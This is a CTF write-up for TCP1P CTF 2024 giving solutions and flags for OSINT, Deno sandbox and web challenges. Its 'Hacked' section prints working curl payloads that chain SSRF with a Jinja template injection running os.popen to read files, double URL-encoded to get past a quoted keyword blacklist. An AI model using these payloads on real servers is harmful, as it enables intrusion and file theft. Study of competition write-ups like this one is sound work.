 # TCP1P CTF

## Welcome

### Solution

On discord profile for bot at TCP1Ps [Discord Server](https://discord.gg/RQ5e3EW5dA)


<details>
<summary>Flag</summary>

`TCP1P{Welcome_To_TCP1P_CTF_2024_Discord}`
</details>



## Denis JS (old)

### Solution

#### First

console.log([...Deno.readDirSync('/').map(file => file.name)]);

#### Second

console.log(Deno.readTextFileSync('/flag-d53212042bb1b2dd56129c909bc93350'));

#### Combined

console.log(Deno.readTextFileSync('/' + [...Deno.readDirSync('/').map(file => file.name)].find(name => name.startsWith('flag'))));

<details>
<summary>Flag</summary>

`TCP1P{HOpe_N49I_DidNt_5eE_i_uSe_h1S_p4yLO4d_T0_50lve_tHI5_ch41LEnGe}`
</details>



## Bandit

### Task

An Jieyab as informant took a photo of a vehicle, can you find the location?

The flag is name the location and date example TCP1P{Town, Coutry. Month Year}

#### Image

![task](assets/suspect.jpg)

### Solution

A google serach of `N 1700 go indinesia car license plate` gives https://platesmania.com/id/gallery.php?gal=id&ctype=1&nomer=N+1700+GO

<details>
<summary>Flag</summary>

`TCP1P{Malang, Indonesia. October 2019}`
</details>



## The Investigator

### Task

Help Jieyab found the newspaper. When was this newspaper published?

The flag name is date TCP1P{Date Month Year}

#### Image

![task](<assets/PETRUS roeit Indonesische misdaad uit.png>)

### Solution

A google seach led me to this page wher you can sarch in old german newspapers. https://www.delpher.nl/nl/kranten/results?query=Links+Frankrijk+wil+rechtse+pers+breken&page=1&coll=ddd

A search for the title of the paper gives me the exact same paper:
Then I found the https://www.delpher.nl/nl/kranten/view?query=Links+Frankrijk+wil+rechtse+pers+breken&coll=ddd&identifier=ddd:011205843:mpeg21:a0736&resultsidentifier=ddd:011205843:mpeg21:a0736&rowid=1

<details>
<summary>Flag</summary>

`TCP1P{17 December 1983}`
</details>



## Night Live at Indonesian

### Task

Oeman is a nightlife maniac tourist in 2007 - 2010, he came back to Indonesia to enjoy the nightlife but the place was closed, what was the name of the place? And who was the person who closed the place?

The flag is name of Man was close the place and the birth date example TCP1P{Abdul Risna Ardana, 14 July 1669}

#### Image 1

![taskimage1](assets/1.jpg)

#### Image 2

![taskimage2](assets/2.jpg)

#### Image 3

[taskimage3](assets/3.jpg)

#### Image 4

![taskimage4](assets/4.jpg)

#### Image 5

![taskimage5](assets/5.jpg)

### Solution

Reverse image search of the emblem saying 16 reveals the club is Jakarta Stadium
Then i find this article: https://www.vice.com/en/article/whats-stopping-stadium-from-reopening/ mentioning that it was the city gouvernor who closed it:
Basuki Tjahaja Purnama, 29. juni 1966

<details>
<summary>Flag</summary>

`TCP1P{Basuki Tjahaja Purnama, 29 June 1966}`
</details>



## Hacked

### Task

### Solution

This task consisted of multiple parts with different workarounds

The first challenge it to reach `/secret` and still fulfill requirements of `@is_from_localhost`. To do that we can proxy through the `/`. The backend for this looks like this:

```py
url = request.args.get('url')

list_endpoints = [
    '/about/',
    '/portfolio/',
]

target_url = "http://daffa.info" + url

if target_url.startswith("http://daffa.info") and any(target_url.endswith(endpoint) for endpoint in list_endpoints):
    # fetch url
```
to do that we will call this:

```bash
curl ctf.tcp1p.team:10012/?url=@localh.st:1337/secret?dummy=/about/
```
* The **@** acts to remove the `http://daffa.info` from the prexied url by setting it as a "username".
* The **dummy=/about/** at the end is also there to fake that the end of the url is `/about/`.
* The **localh.st** acts as a middle man that redirects so it looks like the request comes from localhost as we can read more about [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md).

Now we have successfully been redirected to the secret page, but it requires an admin parameter so it doesnt further redirect us:

```py
if not request.args.get('admin'):
    abort(403) 
```

```bash
curl ctf.tcp1p.team:10012/?url=@localh.st:1337/secret?admin=loremipsum%26dummy=/about/
```

We have now accessed the page and can now try to attack the `render_template_string(template)`. We try:

```py
{{self.__init__.__globals__.__builtins__.__import__('os').popen('cat ../*.txt').read()}}
```

Now we encounter a third issue. The requests of `/` are passed through a blacklist:

```py
blacklist = ["debug", "args", "headers", "cookies", "environ", "values", "query",
    "data", "form", "os", "system", "popen", "subprocess", "globals", "locals",
    "self", "lipsum", "cycler", "joiner", "namespace", "init", "join", "decode",
    "module", "config", "builtins", "import", "application", "getitem", "read",
    "getitem", "mro", "endwith", " ", "'", '"', "_", "{{", "}}", "[", "]", "\\", "x"]
```

As we can see we are not allowed to write `{{` and `}}` for our jinja template injection, and also most of our functions are blacklisted.

Therefore we need to encode this in some way. Because the blacklist check is in `/` before we get redirected we can url encode the string twice so it doesnt unveil our true payload before it has gone through the proxy. CyberChefs URL encode cannot do this task, because it doesnt encode all symbols. Therefor we used some other [online tool](https://onlinetexttools.com/url-encode-text)

```bash
curl ctf.tcp1p.team:10012/?url=@localh.st:1337/secret?admin=%25%37%42%25%37%42%25%37%33%25%36%35%25%36%43%25%36%36%25%32%45%25%35%46%25%35%46%25%36%39%25%36%45%25%36%39%25%37%34%25%35%46%25%35%46%25%32%45%25%35%46%25%35%46%25%36%37%25%36%43%25%36%46%25%36%32%25%36%31%25%36%43%25%37%33%25%35%46%25%35%46%25%32%45%25%35%46%25%35%46%25%36%32%25%37%35%25%36%39%25%36%43%25%37%34%25%36%39%25%36%45%25%37%33%25%35%46%25%35%46%25%32%45%25%35%46%25%35%46%25%36%39%25%36%44%25%37%30%25%36%46%25%37%32%25%37%34%25%35%46%25%35%46%25%32%38%25%32%37%25%36%46%25%37%33%25%32%37%25%32%39%25%32%45%25%37%30%25%36%46%25%37%30%25%36%35%25%36%45%25%32%38%25%32%37%25%36%33%25%36%31%25%37%34%25%32%30%25%32%45%25%32%45%25%32%46%25%32%41%25%32%45%25%37%34%25%37%38%25%37%34%25%32%37%25%32%39%25%32%45%25%37%32%25%36%35%25%36%31%25%36%34%25%32%38%25%32%39%25%37%44%25%37%44%26dummy=/about/
```

<details>
<summary>Flag</summary>

`TCP1P{Ch41n1ng_SsRF_pLu5_5St1_ba83f3ff121ba83f3ff121}`
</details>



## Doxxed

### Solution

```bash
echo VENQMVB7ODNmZTAzNGIyY2ZiMDlkZWFmYmI5NTViMDMzOTJhMDgzZDhmODNiMn0K | base64 -d
```

<details>
<summary>Flag</summary>

`TCP1P{83fe034b2cfb09deafbb955b03392a083d8f83b2}`
</details>